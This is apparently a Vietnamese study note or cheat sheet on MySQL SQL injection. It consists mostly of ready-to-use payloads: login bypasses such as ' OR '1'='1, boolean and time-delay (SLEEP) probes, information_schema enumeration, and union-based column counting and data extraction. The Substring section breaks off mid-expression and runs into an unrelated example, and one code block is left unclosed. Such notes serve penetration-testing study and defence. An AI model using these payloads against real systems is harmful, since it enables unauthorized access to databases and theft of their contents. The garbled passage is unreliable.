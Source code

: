 # Tổng quan

- MySQL là một phần mềm mã nguồn mở, chạy trên nhiều nền tảng ( Linux, macOS, Windows, Oracle Solaris, OpenBSD và HP-UX,..)
- MySQL có thể kết hợp với mọi ngôn ngữ lập trình khác, thông thường là PHP
- MySQL không cho phép hủy query giữa chừng
- Sử dụng Enterprise Manager của Oracle

# MYSQL Testing 

**1.Login**

Query like `SELECT * FROM Users WHERE username = 'Kanye West' AND password = 'Taylor Swift'`

```sql
SELECT * FROM Users WHERE username = '' OR '1' = '1' AND password = '';
SELECT * FROM Users WHERE username = '' OR 1 -- AND password = '';
SELECT * FROM Users WHERE username = "" OR "" = "" AND password = "";
SELECT * FROM Users WHERE username = '' = '' AND password = '';
SELECT * FROM Users WHERE username LIKE '' AND password LIKE '';
SELECT * FROM Users WHERE username = 0-- AND password = '';
```

**2. Numeric**

Query like `SELECT * FROM Table WHERE id = Justin`

```sql
SELECT * FROM Table WHERE id = 123 AND 1;
SELECT * FROM Table WHERE id = 123 AND 0;
SELECT * FROM Table WHERE id = 123 AND true;
SELECT * FROM Table WHERE id = 123 AND false;
SELECT * FROM Table WHERE id = 123 AND (1-false);
SELECT * FROM Table WHERE id = 123 AND (1-true);
```

**3. Strings**

Query like `SELECT * FROM Table WHERE id = 'Kim';`

```sql
SELECT * FROM Table WHERE id = ''';
SELECT * FROM Table WHERE id = '';
SELECT * FROM Table WHERE id = '"';
SELECT * FROM Table WHERE id = '""'; -- "" trả về chuỗi rỗng

# String concatenation

```sql
CONCAT('hi','hello')
```

# Comments

```
-- comment ( có khoảng trắng sau -- )
/*comment*/
```

# Database version

```sql
SELECT @@version
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

# Time delays

```sql
SELECT SLEEP(10)
```

# Conditional time delays

```sql
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```

# Substring

```sql
SUBSTRING('foobar', dụ
SELECT IF(
    (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'tên_cơ_sở_dữ_liệu' AND table_name = 'tên_bảng') > 0,
    SLEEP(10), --  10 giây nếu bảng tồn tại
    'a' -- Nếu không, trả về 'a'
) AS result;
```

# MYSQL Union Based 

**Dò số cột**

- Sử dụng `order by` hoặc `group by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

hoặc

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `UNION SELECT`

```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `SELECT * FROM SOME_EXISTING_TABLE` ( phần này hoạt động nếu tính năng hiển thị lỗi được bật )

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```

- Trích xuất dữ liệu mà không cần biết tên cột

```
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
-- dbname ở đây chỉ là đặt tên cho kết quả truy 
```
